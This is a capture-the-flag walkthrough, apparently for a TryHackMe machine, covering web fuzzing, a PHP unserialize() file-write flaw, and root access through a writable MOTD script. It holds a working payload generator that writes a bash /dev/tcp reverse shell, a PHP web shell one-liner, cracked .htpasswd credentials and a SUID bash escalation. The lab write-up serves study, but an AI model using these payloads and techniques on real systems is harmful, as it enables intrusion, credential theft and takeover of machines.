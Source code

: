 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 80 | HTTP |



# RECONNAISSANCE
---


Let's check the web application first:

![Pasted image 20250407133430.png](../../IMAGES/Pasted%20image%2020250407133430.png)

Source code is the default one too, we need to fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.109.3/FUZZ" -ic -c -t 200

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.109.3/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

javascript [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 160ms]
backup [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 157ms]
grid [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 163ms]
```


We got a `backup` file, let's check it out:

![Pasted image 20250407133732.png](../../IMAGES/Pasted%20image%2020250407133732.png)

We got the `index.php.bak` file, we can visualize the contents of it in order to check for anything unusual:

![Pasted image 20250407134134.png](../../IMAGES/Pasted%20image%2020250407134134.png)

![Pasted image 20250407134241.png](../../IMAGES/Pasted%20image%2020250407134241.png)

This is highly vulnerable, due to this:

- An attacker can craft a malicious serialized payload and pass it via the`debug` GET parameter (e.g.,`?debug=PAYLOAD`).
- The`unserialize()` function will reconstruct the object, triggering the`__destruct()` method of the`FormSubmit` class (or any other class if gadgets exist).
- **Arbitrary File Write**: By controlling`$form_file` and`$message`, an attacker could:
	- Overwrite critical files (e.g.,`.htaccess`,`index.php`). 
	- Write a PHP web shell (e.g.,`<?php system($_GET['cmd']); ?>`) to gain RCE.


Knowing this, we can proceed to exploitation.


# EXPLOITATION
---

We can do the following:

1. Create a `generate_payload.php` file:

```
<?php
class FormSubmit {
 public $form_file;
 public $message;
}

$payload = new FormSubmit();
$payload->form_file = 'shell.php'; // Filename to create
$payload->message = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/IP/4444 0>&1\'"); ?>'; // Reverse shell

echo urlencode(serialize($payload));
?>
```

2. Use the `generate_payload.php` file:

```
php generate_payload.php
```

This will output a URL encoded payload, for example:

```
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A74%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.6.34.159%2F4444+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

Now, use curl to upload the reverse shell:

```
curl "http://10.10.109.3/index.php?debug=GENERATED_PAYLOAD"
```

![Pasted image 20250407135556.png](../../IMAGES/Pasted%20image%2020250407135556.png)

It will upload the file successfully and we can get the reverse shell by visiting:

```
http://TARGET_IP/shell.php
```


If we check our listener, we get the connection:

![Pasted image 20250407135634.png](../../IMAGES/Pasted%20image%2020250407135634.png)

Let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---


We can begin by stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250407135735.png](../../IMAGES/Pasted%20image%2020250407135735.png)

We can find this inside of `/var/www/html`:

![Pasted image 20250407141523.png](../../IMAGES/Pasted%20image%2020250407141523.png)

We got a `.htpasswd` file:

```
www-data@osboxes:/var/www/html$ cat .htpasswd
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

We can crack it using john:

```
echo 'james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1' > hash.txt
```

```
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

jamaica (james)
```

We got credentials, let's go into ssh:

```
james:jamaica
```

![Pasted image 20250407141902.png](../../IMAGES/Pasted%20image%2020250407141902.png)

```
james@osboxes:~$ cat user.txt
7e37c84a66cc40b1c6bf700d08d28c20
```

We got a `Note_to_james.txt` file:

```
james@osboxes:~$ cat Note-To-James.txt
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it?

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :)

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```

The `/etc/update-motd.d/` directory contains the scripts that generate the MOTD that's displayed on the ssh login, we can check if we are actually able to modify that and if root owns this:

```
ls -ld /etc/update-motd.d/
ls -l /etc/update-motd.d/
```

![Pasted image 20250407142343.png](../../IMAGES/Pasted%20image%2020250407142343.png)

We can modify any of these files to add either a reverse shell or create a SUID binary `, let's for example modify the `99-esm` file:

```
chmod u+s /bin/bash
```

```
cat /etc/update-motd.d/00-header
#!/bin/sh
#
# 00-header - create the header of the MOTD
# Copyright (C) 2009-2010 Canonical Ltd.
#
# Authors: Dustin Kirkland <kirkland@canonical.com>
#
# This program is free software; you can redistribute it and/or modify
# it under the terms of the GNU General Public License as published by
# the Free Software Foundation; either version 2 of the License, or
# (at your option) any later version.
#
# This program is distributed in the hope that it will be useful,
# but WITHOUT ANY WARRANTY; without even the implied warranty of
# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
# GNU General Public License for more details.
#
# You should have received a copy of the GNU General Public License along
# with this program; if not, write to the Free Software Foundation, Inc.,
# 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

chmod u+s /bin/bash
```

Now, we need to log into ssh again to trigger the payload:

```
ssh james@IP

Once logged use: /bin/bash -p
```

We can see this:

![Pasted image 20250407143046.png](../../IMAGES/Pasted%20image%2020250407143046.png)

There we go, we got root, let's read final flag:

```
bash-4.3# cat /root/root.txt
3c8c3d0fe758c320d158e32f68fabf4b
```


![Pasted image 20250407143141.png](../../IMAGES/Pasted%20image%2020250407143141.png)

